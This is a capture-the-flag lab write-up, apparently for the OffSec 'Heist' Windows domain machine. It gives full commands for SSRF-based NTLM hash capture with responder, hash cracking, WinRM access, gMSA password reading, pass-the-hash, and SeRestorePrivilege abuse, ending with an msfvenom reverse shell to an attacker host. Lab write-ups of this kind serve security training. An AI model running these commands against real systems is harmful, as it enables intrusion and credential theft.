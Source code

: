 #InProgress 
```IP
192.168.167.165
```
# Enumeration
## SMB
```
nxc smb 192.168.167.165 -u '' -p '' 
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219093954.png?raw=true)
Nothing interesting
## HTTP 8080
We have a web browser that doesn't connect to internet. Let's see if it connects to our machine. 
# Exploitation
We start responder in our local machine:
```
sudo responder -I tun0
```
and then try to connect to our machine:
```
http://192.168.167.165:8080/?url=http://192.168.45.246/test
```
And we get a NTLMv3 hash:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094300.png?raw=true)
Let's try to crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/enox.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094313.png?raw=true)
Now we have the following credentials:
```
enox:california
```
## WINRM
We can use our discovered credentials with nxc to assess that we have indeed access to the machine:
```
nxc winrm 192.168.167.165 -u 'enox' -p 'california'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094548.png?raw=true)

# PrivEsc

## Manual
```
evil-winrm -i 192.168.167.165 -u enox -p 'california'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094828.png?raw=true)
We get the local flag
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094900.png?raw=true)
There is too an `application` directory and a `todo.txt` file:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095142.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095355.png?raw=true)

## Automated
### Bloodhound
After some manual enumeration we will run bloodhound:
```
bloodhound-python -d heist.offsec -c all -u enox -p 'california' -ns 192.168.167.165 --zip
```
We mark enox user as owned and run `Shortest Paths to Domain Admins from Owned Principals`:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219100927.png?raw=true)
In order to exploit the DCSync vulnerability we would have to be a local admin, and we are not. Checking the Outbound Object Control of our user we notice an odd Group Delegated Object Control, which can be exploited following the Bloodhound recommendations:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102257.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102321.png?raw=true)
It is affecting specifically the user svc_apache. We download an already compiled binary as shown below:
```
iwr -uri https://github.com/expl0itabl3/Toolies/raw/refs/heads/master/GMSAPasswordReader.exe -outfile GMSAPasswordReader.exe
```
And then run the exploit:
```
.\GMSAPasswordReader.exe --accountname svc_apache
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102530.png?raw=true)
```
C9C9F97308956B4AEDD53C1351F47A84
```
Because svc_apache is a service account we will type a dollar sign at the end of it:
```
evil-winrm -i 192.168.167.165 -u svc_apache$ -H C9C9F97308956B4AEDD53C1351F47A84
```
And now we have access again as svc_apache. It contains a ps1 script in its Documents folder which seems to add the `SeRestorePrivilege`.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103918.png?raw=true)
And indeed it is enabled.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103952.png?raw=true)

```
iwr -uri https://github.com/dxnboy/redteam/raw/refs/heads/master/SeRestoreAbuse.exe -outfile SeRestoreAbuse.exe
```
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.246 LPORT=4444 -f exe > rev.exe
```
```
iwr -uri http://192.168.45.246:8000/rev.exe -outfile shell.exe
```
```
.\SeRestoreAbuse.exe C:\Users\svc_apache$\Documents\shell.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105244.png?raw=true)
And we got nt authority system:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105350.png?raw=true)
### Peass
### Mimikatz

# Lateral Movement
